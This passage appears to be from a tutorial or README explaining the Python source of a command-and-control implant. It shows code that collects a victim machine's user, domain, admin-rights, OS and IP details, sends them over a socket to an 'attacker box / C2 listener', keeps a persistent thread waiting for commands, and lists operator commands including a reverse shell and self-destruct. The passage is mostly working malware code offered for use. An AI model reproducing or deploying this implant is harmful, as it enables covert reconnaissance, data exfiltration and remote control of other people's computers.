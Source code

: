 ```python
    info=os.environ["userdomain"] + "\\" + os.getlogin() + "\n[Elevated]: " + str(shell.IsUserAnAdmin()) + "\nMember of Local Admins: " + LocalAdmin + "\n" + "Domain Joined: " + OnADomain + "\n" + "Domain Info: " + domaininfo.stdout + "\n" + "OS info: " + osinfo + "\n" + "IP address info: " + "\n" + ipaddrinfo
else:
    info=os.environ.get('COMPUTERNAME') + "\\" + os.getlogin() + "\n[Elevated]: " + str(shell.IsUserAnAdmin()) + "\nMember of Local Admins: " + LocalAdmin + "\n" + "Domain Joined: " + OnADomain + "\n" + "OS info: " + osinfo +"\n" + "IP address info: " + "\n" + ipaddrinfo
```

***The Socket Connection to your Attacker Box / C2 listener***
-

```python
client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect((host, port)) #Connect to our attacker box
client.send(info.encode('UTF-8')) # send the info collected and stored in the `info` variable in the code above this section
"""
This is the info we're sending to the C2 listener
 info=os.environ["userdomain"] + "\\" + os.getlogin() + "\n[Elevated]: " + str(shell.IsUserAnAdmin()) + "\nMember of Local Admins: " + LocalAdmin + "\n" + "Domain Joined: " + OnADomain + "\n" + "Domain Info: " + domaininfo.stdout + "\n" + "OS info: " + osinfo + "\n" + "IP address info: " + "\n" + ipaddrinfo
else:
    info=os.environ.get('COMPUTERNAME') + "\\" + os.getlogin() + "\n[Elevated]: " + str(shell.IsUserAnAdmin()) + "\nMember of Local Admins: " + LocalAdmin + "\n" + "Domain Joined: " + OnADomain + "\n" + "OS info: " + osinfo +"\n" + "IP address info: " + "\n" + ipaddrinfo
"""

#############################
#create a thread that is perpetual and receives commands from the listener on our attacker box.
#This thread target is our receiver function and we share the client socket as our argument
#############################
handler_thread = threading.Thread(target=receiver, args=(client, ))
handler_thread.daemon=True
handler_thread.start()

#Keep it alive!!!
while True:
    time.sleep(1)
```

***The "Receiving of Commands" Function***
-

Some of the info below may look confusing at first, but we will fill in the blanks.  The server / attacker box will be capable of sending the following commands at the moment:

- **msg**: Sends a basic message to the client
- **getuserinfo**: gets os, ip, iselevated, user info
- **whoami**: This tells us who the active user is for this shell.
- **shell**: Initiates a reverse shell!
- **command**: issues a curl command to get our victim's public IP
- **self-destruct**: kills the agent/zombie

